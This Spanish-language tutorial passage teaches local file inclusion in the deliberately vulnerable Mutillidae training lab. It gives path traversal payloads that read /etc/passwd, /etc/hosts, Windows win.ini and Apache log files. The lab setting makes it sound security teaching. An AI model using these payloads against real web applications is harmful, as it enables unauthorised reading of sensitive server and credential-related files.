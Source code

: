 ✅ Abre Mutillidae:

```
http://localhost/mutillidae
```

✅ Ve a:

```
OWASP Top 10 → A4 Insecure Direct Object References → File Inclusion
```

---

✅ Verás algo como:

```
page=about.php
```

✅ Prueba con:

```
page=../../../../etc/passwd
```

✔️ Resultado: contenido del archivo `/etc/passwd`.

---

✅ En Windows:

```
page=..\\..\\..\\..\\Windows\\win.ini
```

---

✅ En algunos labs:

```
page=../../../var/log/apache2/access.log
```

---

✅ Esto te enseña:

✔️ Cómo navegar directorios.

✔️ Cómo probar diferentes rutas.

✔️ Cómo leer archivos sensibles.

---

### ✅ 6️⃣ Ejemplos fáciles de payloads

✅ Linux:

```
../../../../etc/passwd
../../../../etc/hosts
../../../../var/log/apache2/error.log
```
